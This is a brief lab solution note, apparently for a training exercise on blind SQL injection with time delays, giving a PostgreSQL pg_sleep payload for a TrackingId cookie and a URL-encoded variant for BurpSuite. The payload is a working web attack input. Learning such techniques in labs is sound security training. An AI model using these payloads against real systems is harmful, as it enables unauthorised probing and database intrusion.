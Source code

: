 
### Blind SQL injection with time delays : PRACTITIONER

---

Try the PostgreSQL delay payload in the `TrackingId` cookie.

```SQL
'; SELECT pg_sleep(10)-- 
```

To inject the semicolon in BurpSuite, URL encode it:
```SQL
'%3b SELECT pg_sleep(10)-- 
```

---
